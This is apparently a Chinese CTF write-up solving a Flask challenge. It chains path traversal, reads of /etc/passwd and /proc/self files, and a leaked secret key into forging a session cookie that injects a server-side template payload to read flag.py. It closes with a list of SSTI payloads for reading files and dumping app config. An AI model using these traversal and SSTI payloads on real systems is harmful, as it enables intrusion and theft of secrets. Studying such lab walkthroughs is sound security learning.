



## flag
`n1book{afr_3_solved}`
[参考资料](https://www.anquanke.com/post/id/170466)

## 思路
1. 访问环境，任意输入ls  

2. 网页将我们的输入值ls打印出来，可能存在模板注入  

3. 进一步进入article界面，测试flag，模板注入{{1+2}}  


4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值  

5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限  

6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django  

7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。  
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容
8. 通过阅读源码关键部分，如果`session['n1code']`不存在或者`n1code`不在session中，我们填入的表单值会作为`session['n1code']`的值。  
```python
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None 
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
        template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session[
            'n1code']
        session['n1code'] = None
        return render_template_string(template)
```  

9. 然后下列语句会将`session['n1code']`的值打印出来。  
    重点在于我们需要构造`session['n1code']`，能让`flag.py`的值被打印出来

```python
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```


10. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X92dcQ.uupVCl_MiIFwJPSj4hnJTB6D5F4 -s Drmhze6EPcv0fN_81Bj-nA
- 本session的cookie值

- 执行解密脚本


11. 然后把`{'n1code': None}`换成读文件`flag.py`的代码，加密回去
```{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}```
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*


12. 得到cookie值，修改网页cookie值，在表单填入任意值，完成对`session['n1code']`的修改，使得[server.py](./scripts/afr3_server.py)可以打印出`flag.py`的内容
`eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X92fSQ.KKLJgd92Ymr6a29ENijcYidV1Mk`



13. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力，一个多月前第一次做的时候就不会，现在第二次做也还是不会，不过从当时的半知半解得到flag，到现在基本了解了整道题的原理和考点
- 考察对flask、Django等web框架的cookie、session加解密知识
- 考察`../../../../../`目录穿越
- 考察目录穿越后获取信息的能力
    - `/proc/self/environ` 当前进程环境变量
    - `/proc/self/cmdline` 当前进程命令行，得到`python server.py`命令
    - `/proc/self/cwd` 当前进程工作目录，得到server.py源码，进而找出flask的cookie篡改漏洞。
- 考察SSTI(模板注入)  
  `{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}`

## SSTI常用命令
- **读取文件内容1，()也可以为''**  
```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}``` 
- **读取文件内容2**
```{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read()}}```
- **获取配置**  
```{{config.items()}}```
- **自身dict**  
```{{self.__dict__}}```
- **获取当前app配置**  
```{{get_flashed_messages.__globals__['current_app'].config}}```
- **__getitem__绕过[]**  
```{{get_flashed_messages.__globals__.__getitem__('current_app').config}}```
- **url_for减少字符长度**  
```{{url_for.__globals__.__getitem__('current_app').config}} ```